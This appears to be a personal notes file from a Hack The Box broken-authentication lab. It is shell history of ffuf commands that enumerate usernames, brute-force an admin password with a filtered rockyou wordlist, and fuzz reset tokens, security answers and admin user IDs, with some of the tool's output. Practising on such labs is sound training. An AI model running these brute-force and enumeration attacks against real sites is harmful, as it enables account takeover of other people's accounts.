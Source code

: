 # HTB_Broken_Authentication

[✗]─[user@parrot]─[~/Downloads]
└──╼ $ffuf -w xato-net-10-million-usernames.txt -u http://94.237.56.64:35816/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
─[✗]─[user@parrot]─[/usr/share/wordlists]
└──╼ $sudo su
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
grep: rockyou.txt: binary file matches
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #wc -l custom_wordlist.txt
151647 custom_wordlist.txt
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #ffuf -w ./custom_wordlist.txt -u http://94.237.121.100:47395/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
──╼ $ffuf -w ./tokens.txt -u http://94.237.60.219:39636/reset_password.php?token=FUZZ -fr "The provided token is invalid"


r@parrot]─[~/Downloads]
└──╼ $ffuf -w ./uk_cities.txt -u http://94.237.54.192:45449/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=1r817v9eur8tihddinbobkfat1" -d "security_response=FUZZ" -fr "Incorrect response."

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.192:45449/security_question.php
 :: Wordlist         : FUZZ: /home/user/Downloads/uk_cities.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=1r817v9eur8tihddinbobkfat1
 :: Data             : security_response=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Incorrect response.
________________________________________________

Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 293ms]
Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 344ms]
Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 265ms]
Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 262ms]
[WARN] Caught keyboard interrupt (Ctrl-C)




ffuf -w ./tokens.txt -u "http://94.237.59.174:47956/admin.php?user_id=FUZZ" -b "PHPSESSID=ok1fgb4aiogub5e7enbflme2lv" -fr "Could not load admin data. Please check your privileges" -mr "HTB{"
